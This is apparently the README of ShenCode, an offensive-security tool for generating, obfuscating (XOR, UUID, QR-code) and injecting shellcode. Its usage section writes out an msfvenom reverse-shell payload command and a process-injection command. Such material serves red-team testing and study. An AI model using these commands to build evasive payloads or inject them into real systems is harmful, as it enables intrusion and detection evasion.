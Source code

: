 # ShenCode

A multi purpose tool for shellcode operations

![](shencode-042.png)

## Features

### Version 0.4.4

- create
	- create shellcodes with msfvenom
	- create a [polymorphic payload](https://github.com/psycore8/shencode/wiki/create) 
- encode
	- `ROR13` to `ROL` with custom key (**Windows only**)
	- `QR-Code`: hide OpCodes as QR-Code image
	- `XOR` encryption
	- `UUID` obfuscation - Please, check out my [Blog Post](https://www.nosociety.de/en:it-security:blog:obfuscation_shellcode_als_uuids_tarnen_-_teil_1) about this encoder
- extract
	- extract shellcode from position `x` to `y`
- inject
	- inject shellcode into a remote process (**Windows only**)
- output
	- raw shellcode to file
	- formatting options: `C++, C#, C-ASM, PS, PY, HEX`
	- new `inspect` option helps to find offsets
	- output in console windows
	- output in template

## ToDo

- make code more modular
- automatical compile feature

## How to use

### create shellcode

`python shencode.py create --cmd="-p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4443 -f raw -o payload.bin"`

#### Poly-XOR the generated shellcode

`python shencode.py create --xor-stub --xor-filename payload.bin --xor-outputfile payload.xor --xor-key 35`

### encode shellcode

`encode --filename infile --outputfile outfile --<encoder> [--encoderoption]`

[ShenCode encode options and examples](https://github.com/psycore8/shencode/wiki/encode)

### extract shellcode

`python shencode.py extract --filename bin.o --outputfile shell.raw --first-byte <OFFSET> --last-byte <OFFSET>`

### inject shellcode

`python shencode.py inject --filename calc.raw --processname notepad.exe --startprocess`

### output in different styles

ShenCode supports multiple output features.

`python shencode.py -o {c, casm, cs, ps1, py, hex} <commands>`

[ShenCode output options](https://github.com/psycore8/shencode/wiki/output)


## Parameter

Please [refer to the wiki](https://github.com/psycore8/shencode/wiki) for a full parameter list.

## References

- [Function Name Hashing](https://www.bordergate.co.uk/function-name-hashing/)
- [Win32API with python3 injection](https://systemweakness.com/win32api-with-python3-part-iii-injection-6dd3c1b99c90)
- [Violent python: XOR Encryption](https://samsclass.info/124/proj14/VPxor.htm)
- [How to easily encrypt file in python](https://www.stackzero.net/how-to-easily-encrypt-file-in-python/)
- [Shellcode XOR Encoder and Decoder](https://www.doyler.net/security-not-included/shellcode-xor-encoder-decoder)